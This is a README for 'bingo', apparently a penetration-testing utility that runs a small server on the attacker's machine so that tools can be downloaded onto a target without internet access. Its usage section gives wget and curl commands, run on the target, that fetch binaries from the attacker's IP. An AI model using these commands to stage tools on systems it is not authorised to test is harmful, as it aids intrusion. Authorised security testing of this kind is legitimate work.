 # Bingo - Penetration Testing Toolkit

bingo facilitates the distribution and execution of essential tools for penetration testing, allowing the attacker to fetch them on the target machine without internet access on it.

## Installation

1. **Clone the Repository:**
   ```bash
   git clone https://github.com/luskabol/bingo.git
   cd bingo

2. **Install dependencies**
    ```bash
    pip install -r requirements.txt

## Usage

1. **On the attacker machine:**
    ```bash
    python3 bingo.py
    ```

2. **On the target machine:**
    ```bash
    wget http://{your-internal-IP}:8000/get/{binary-name} -O {path-to-output-file}
    ```

    **If the target doesn't have wget:**
    ```bash
    curl http://{your-internal-IP}:8000/get/{binary-name} -o {path-to-output-file}
    ```

- Replace {your-internal-IP} with the attacker's machine IP.

- Replace {binary-name} with the name of the binary you want to get, check `bingo.yaml` for available binaries.

- Replace {path-to-output-file} with the location where you want to save the binary.
